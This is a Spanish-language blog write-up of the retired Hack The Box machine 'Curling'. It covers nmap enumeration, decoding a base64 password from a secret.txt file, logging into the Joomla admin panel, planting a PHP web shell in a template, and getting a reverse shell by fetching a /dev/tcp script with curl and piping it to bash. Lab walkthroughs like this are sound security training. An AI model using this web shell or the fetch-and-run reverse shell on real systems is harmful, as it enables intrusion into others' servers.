 ```yaml
---
layout: post
title:  "Maquina  Retirada Curling de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada CURLING
tags: HTB, Joomla, CURL, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Curling ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.150       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
$" nmap -sC -sV -p -oN target 10.10.10.150  
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Procedemos a hacer un pequeño Fuzzing con nmap y el script `http-enum`
```bash
# nmap --script http-enum -p80 10.10.10.150 -oN Webscan
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-20 17:25 CEST
Nmap scan report for 10.10.10.150
Host is up (0.041s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|   /administrator/manifests/files/joomla.xml: Joomla version 3.8.8
|   /language/en-GB/en-GB.xml: Joomla version 3.8.8
|   /htaccess.txt: Joomla!
|   /README.txt: Interesting, a readme.
|   /bin/: Potentially interesting folder
|   /cache/: Potentially interesting folder
|   /images/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|   /libraries/: Potentially interesting folder
|   /modules/: Potentially interesting folder
|   /templates/: Potentially interesting folder
|_  /tmp/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 8.07 seconds
```
Procedemos a hecharle un vistazo a la pagina web
_foto_
Vemos varios comentarios y enumeramos un posible usuario llamado `"Floris"`

Hacemos #Ctrl+U para inspeccionar el codigo fuente

Nos encontramos al final del codigo fuente de la pagina principal un comentario con un `secret.txt`

Procedemos con: `"http://10.10.10.150/secret.txt"`

Encontramos un hash: `Q3VybGluZzIwMTgh` que parece estar codificado en `base64`

Hacemos un tratamiento de la posible pass encontrada:
```bash
# echo "Q3VybGluZzIwMTgh" | base64 -d       
Curling2018!
``` 

Seguimos comprobando las rutas que nos a enumerado el script de nmap: `"/administrator/"`
Encontramos el Panel Login.
Tenemos:
```bash
User: Floris
Pass: Curling2018!
```
Nos conseguimos loguear correctamente como el user Floris
Una vez dentro nos dirigimos a `TEMPLATES`, elegimos el tema `Beez3` y procedemos a crear un nuevo archivo.
_foto_

El archivo que vamos a crear va a ser una archivo malicioso `.php`tal que podamos ejecutar comandos a a nivel web para posteriormente lanzarnos una shell
Archivito del Joomla: Nombre: `pros.php`
```php
<?php
    system($_REQUEST['cmd']);
?>
```
Ahora a nivel web vamos a intentar apuntar a nuestro archivo template creado nuevo: `/templates/beez3/pros.php`
Vemos que nos responde y se esta interpretando, procedemos a ejecutar comandos de la siguiente forma:
_foto_
```bash
  "http://10.10.10.150/templates/beez3/pros.php?cmd=whoami"
www-data
``` 
Probamos con las revershell de siempre y vemos que no conseguimos acceso a la maquina.
La Alternativa esta en el uso de CURL para hacer una peticion a un servidor que nos montemos con python3, compartiendo un archivo shell.sh para apunte a nuestro servidor con una Revese_shell:
Archivo `Shell.sh`
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.5/443
```
Teniendo el servidor `python3 -m http.server 80` montado alojando el recurso `Shell.sh`
Procedemos a hacer la Peticion Web:
```bash
  "http://10.10.10.150/templates/beez3/pros.php?cmd=curl%20http//10.10.16.132/Shell.sh"
```
Como output: Vemos que se nos lee el codigo tipo:
`#!/bin/bash bash -i >& /dev/tcp/10.10.16.132/443 0>&1 `

Nos preparamos y nos ponemos a la escucha con `nc -vnlp 443` para recibir la shell.
Ahora paso clave: Pipearlo con `BASH`
Para lograr que se ejecute ahora el codigo:
```bash
  "http://10.10.10.150/templates/beez3/pros.php?cmd=curl%20http//10.10.16.132/Shell.sh|bash"
```
Y de este modo conseguimos nuestra consola como `www-data`
